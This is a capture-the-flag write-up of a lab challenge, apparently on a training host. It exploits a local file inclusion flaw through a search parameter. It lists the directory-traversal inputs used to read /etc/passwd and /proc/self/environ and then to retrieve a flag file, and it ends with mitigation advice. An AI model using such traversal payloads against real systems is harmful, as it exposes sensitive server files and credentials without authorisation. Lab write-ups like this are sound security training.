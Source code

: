 #  Enumerate - Local File Inclusion (LFI) – Writeup

## What is Local File Inclusion (LFI)?

**Local File Inclusion (LFI)** is a type of vulnerability that occurs when a web application includes files on the server dynamically, using user-supplied input without proper validation or sanitization. If not properly secured, this can allow attackers to read arbitrary files on the server.

### Common Impact of LFI:
- Reading sensitive files (e.g., `/etc/passwd`, application source code)
- Disclosure of credentials or secrets
- Possible remote code execution in certain setups (e.g., log poisoning, wrappers)

---

## Target: ```http://web.labs.defhawk.com:12000/```
![Target](Screenshot%20From%202025-07-14%2013-24-52.png)

## Challenge Summary

The web application provides a search functionality with the following URL structure:

```
http://web.labs.defhawk.com:12000/search?term=flag&sample=Sample1
```

![Flag](Screenshot%20From%202025-07-14%2013-26-41.png)

Our goal was to exploit an LFI vulnerability to enumerate system files and retrieve the flag.

---

## Step 1: Testing for LFI

To determine if the `sample` parameter is vulnerable to LFI, we attempted to traverse out of the web directory and access `/etc/passwd`:

```
/search?term=flag&sample=../../../../../etc/passwd
```
![/etc/passwd](Screenshot%20From%202025-07-14%2013-30-58.png)

**Success** – The contents of `/etc/passwd` were displayed, confirming the LFI vulnerability.

---

## Step 2: User Enumeration

From the `/etc/passwd` output, we identified a non-system user:

```
node:x:1000:1000::/home/node:/bin/bash
```

This indicated that the `node` user might own or access the flag.

We attempted to access:

```
/search?term=flag&sample=../../../../../home/node/flag.txt
```

But received no output.

---

## Step 3: Reading Environment Variables

We used LFI to read environment variables, which often contain useful path info:

```
/search?term=flag&sample=../../../../../proc/self/environ
```

This returned:

```
HOME=/root
PWD=/usr/src/app
```
![/proc/self/environ](Screenshot%20From%202025-07-14%2013-34-50.png)

This revealed that the working directory for the application was `/usr/src/app`.

---

## Step 4: Retrieving the Flag

Using this information, we attempted to access:

```
/search?term=flag&sample=../../../../../usr/src/app/flag.txt
```

**Success** – The flag was retrieved successfully.

![flag](Screenshot%20From%202025-07-14%2013-36-58.png)

---

## LFI Mitigation Strategies

To prevent LFI vulnerabilities:

1. **Avoid dynamic file inclusion from user input** wherever possible.
2. **Whitelist allowed filenames or file paths** if dynamic inclusion is required.
3. **Validate and sanitize user input** thoroughly.
4. **Use secure coding libraries or frameworks** that handle file access securely.
5. **Disable directory traversal** by stripping `../` sequences from input.
6. **Apply least privilege** to the web server and application user accounts.
7. **Use web application firewalls (WAFs)** to detect and block LFI patterns.

---

## Conclusion

By carefully examining application behavior and exploiting path traversal, we were able to:

- Identify a Local File Inclusion vulnerability
- Enumerate system users
- Discover application runtime paths
- Successfully extract the flag

This challenge highlights the importance of **input validation** and **secure coding practices** to defend against file inclusion attacks.
